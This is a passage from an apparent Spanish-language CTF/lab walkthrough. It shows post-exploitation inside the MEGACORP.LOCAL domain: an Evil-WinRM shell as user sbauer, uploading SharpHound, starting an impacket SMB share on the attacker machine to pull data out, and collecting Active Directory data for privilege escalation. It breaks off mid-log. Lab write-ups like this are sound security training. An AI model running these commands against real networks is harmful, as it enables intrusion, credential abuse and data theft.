 Y los grupos que tengo asignados ya tenía acceso de antes

```null
*Evil-WinRM* PS C:\Users\sbauer\Documents> net user sbauer
User name                    sbauer
Full Name                    Sarina Bauer
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 4:56:31 PM
Password expires             Never
Password changeable          1/10/2020 4:56:31 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *Developers
The command completed successfully.

Subo el injestor SharpHound.exe a la máquina víctima para encontrar formas de escalar privilegios con BloodHound

```null
*Evil-WinRM* PS C:\Users\sbauer\Documents> upload /opt/SharpHound.exe
Info: Uploading /opt/SharpHound.exe to C:\Users\sbauer\Documents\SharpHound.exe

                                                             
Data: 1211048 bytes of 1211048 bytes copied

Info: Upload successful!
```

En mi máquina linux creo un servicio compartido por SMB

```null
impacket-smbserver shared $(pwd) -smb2support
```

Lo ejecuto y descargo el comprimido

```null
*Evil-WinRM* PS C:\Users\sbauer\Documents> ./SharpHound.exe -c All
2023-01-25T06:31:40.4257344-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-25T06:31:40.4257344-08:00|INFORMATION|Initializing SharpHound at 6:31 AM on 1/25/2023
2023-01-25T06:32:04.7217530-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-25T06:32:04.9246465-08:00|INFORMATION|Beginning LDAP search for MEGACORP.LOCAL
